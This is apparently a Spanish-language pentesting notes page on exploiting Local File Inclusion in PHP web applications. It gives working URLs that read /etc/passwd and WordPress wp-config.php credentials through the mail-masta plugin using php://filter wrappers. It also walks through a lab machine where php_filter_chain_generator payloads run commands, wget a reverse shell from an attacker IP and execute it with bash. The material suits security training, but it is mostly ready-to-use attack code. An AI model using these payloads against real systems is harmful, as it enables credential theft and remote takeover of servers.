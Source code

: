 Esta vulnerabilidad consiste en poder acceder a archivos internos de la máquina, donde funciona principalmente con webs hechas en php. Por ejemplo, si estamos ante una web o un CMS vulnerable como en el siguiente caso, podemos ver que si vemos un exploit de esta vulnerabilidad nos explican como acceder a los archivos internos de la máquina:
![[Pasted image 20240613000715.png]]

Vamos a examinar este exploit, donde vemos que se aprovecha de una vulnerabilidad de local file inclusion, lo que significa que podemos acceder a archivos locales de la máquina:
![[Pasted image 20240613000719.png]]

Vamos a copiar y pegar esa línea y probemos cómo funciona, y si lo pegamos en el navegador accedemos al archivo que queramos, que en mi caso lo modifiqué y puse para ver el fichero etc/passwd:
![[Pasted image 20240613000725.png]]

Pero lo interesante es acceder con el mismo comando del exploit, donde veremos que tenemos acceso a unas credenciales, donde presionamos CONTROL+U y veremos la información estructurada:
![[Pasted image 20240613000739.png]]

Ahora con estas credenciales podremos iniciar sesión en muchos sitios.
## ADQUIRIR WP-CONFIG.PHP DE WOPRDPRESS
Si encontramos un LFI dentro de un wordpress, podemos obtener el fichero de configuración donde se almacenan las credenciales llamado wp-config.php; y para ello tenemos que usar un wrapper (explotando el plugin que corresponda):
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![[Pasted image 20240613000754.png]]
## EJECUCIÓN REMOTA DE COMANDOS CON LFI
También podemos lograr ejecución remota de comandos si hemos conseguido explotar un LFI y veamos que la web acepte wrappers, por ejemplo dentro de la máquina [[MAQUINA CHAIN]]

------------------------------

Y por aquí podemos explotar un LFI de una forma muy básica:
```
http://utils.chaincorp.nyx/include.php?in=../../../../../../etc/passwd
```

![[Pasted image 20240613000806.png]]
No obstante, podemos intentar leer el fichero include.php, que lo vemos dentro de la url pero en un principio no podemos leerlo, por lo que podemos usar un wrapper, que podemos extraerlo de este repositorio de github:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion
```

![[Pasted image 20240613000812.png]]

Lo aplicamos y nos devuelve el contenido de este archivo codificado en base64:
```
http://utils.chaincorp.nyx/include.php?in=php://filter/convert.base64-encode/resource=include.php
```

![[Pasted image 20240613000832.png]]

Y vemos que efectivamente podemos bypassear el lfi y leer el contenido de cualquier fichero:
![[Pasted image 20240613000842.png]]

Existe una tool llamada php_filet_chain_generator que nos permite ejecutar un comando a partir de un LFI conocido, la cual podemos encontrarla en el siguiente repositorio de github:
```
https://github.com/synacktiv/php_filter_chain_generator
```

Y aquí tenemos sus instrucciones de uso:
![[Pasted image 20240613000850.png]]

Lo ejecutamos pero en la parte del php le metemos un comando, por ejemplo el comando ls -l:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('ls -l'); ?>"
```

![[Pasted image 20240613000859.png]]

Pegamos todo esto a partir del php?in= y vemos que se ejecuta el comando:
![[Pasted image 20240613000904.png]]

En este punto lo que haremos será compartir la reverse shell dentro de un index.html desde python, y dentro del payload tenemos que usar wget primero para descargarlo:
![[Pasted image 20240613000912.png]]

```bash
python3 php_filter_chain_generator.py --chain "<?php system('wget 192.168.0.24'); ?>"
```

![[Pasted image 20240613000920.png]]

Y si lanzamos un ls, ahora el archivo está dentro de la máquina, por lo que ejecutamos el siguiente otro payload para ejecutar dicho archivo:
![[Pasted image 20240613000924.png]]

Por tanto ahora ya podemos ejecutar este archivo y obtener la reverse shell:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('bash index.html.3'); ?>"
```

![[Pasted image 20240613000932.png]]

![[Pasted image 20240613000937.png]]
Y habremos recibido la conexión:
![[Pasted image 20240613000940.png]]

